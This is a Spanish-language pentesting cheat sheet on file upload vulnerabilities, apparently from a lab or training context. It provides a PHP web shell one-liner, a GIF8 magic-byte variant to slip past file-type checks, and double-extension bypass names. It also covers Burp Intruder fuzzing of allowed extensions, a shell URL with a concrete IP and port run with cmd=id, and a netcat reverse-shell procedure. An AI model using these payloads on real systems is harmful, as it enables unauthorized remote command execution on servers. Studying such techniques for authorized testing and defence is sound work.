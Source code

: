 Puede ser que haya extensiones en blacklist, para probar qué extensiones son válidas:

#####🔎 Identificación de extensiones permitidas

1. Crear un archivo con una extensión permitida (por ejemplo, `.jpg`):
   ```php
   shell.jpg => <?php system($_REQUEST['cmd']); ?>
   ```
2. Interceptar la petición con **Burp Suite**.
3. Enviar la petición al **Intruder** y seleccionar la extensión.
4. Usar una lista de extensiones conocidas:
   ```bash
   /SecLists/Discovery/Web-Content/web-extensions.txt
   ```
5. Verificar la ubicación donde se subió el archivo, por ejemplo:
   ```
   http://83.136.249.46:40526/profile_images/shell2.phar?cmd=id
   ```
6. Probar extensiones válidas que ejecuten comandos.

## 🔥 Evasión de filtros avanzados

Si los filtros bloquean las extensiones comunes, se pueden probar variantes como:

- `shell.php.jpg`
- `shell.jpg.php`
- `shell.jpg.phar`
- `shell.jpg.phtml`

📌 **Truco adicional:** Algunas aplicaciones requieren que el archivo comience con una firma específica. En este caso, agregar `GIF8` al inicio del código shell puede ayudar a evadir filtros.

```php
GIF8<?php system($_REQUEST['cmd']); ?>
```
## 📂 FILE UPLOAD

### 🔥 Descripción
La vulnerabilidad de **File Upload** permite subir un archivo malicioso que puede ejecutar comandos o incluso una **reverse shell**, camuflada en un archivo esperado como `.jpg`, `.png`, etc.

### ⚡ Procedimiento

1. **Crear el archivo** con el código malicioso en formato `.php`
2. **Poner en escucha** la máquina atacante con Netcat
   ```bash
   nc -lvnp 4444
   ```
3. **Subir el archivo PHP** en la víctima y visitarlo
4. **Recibir el acceso remoto** en tu terminal

#### 🛠 Métodos de Explotación

##### ✅ Forma Fácil
Si el sistema permite subir archivos sin restricciones, simplemente sube `reverse.php` con una **reverse shell** dentro.

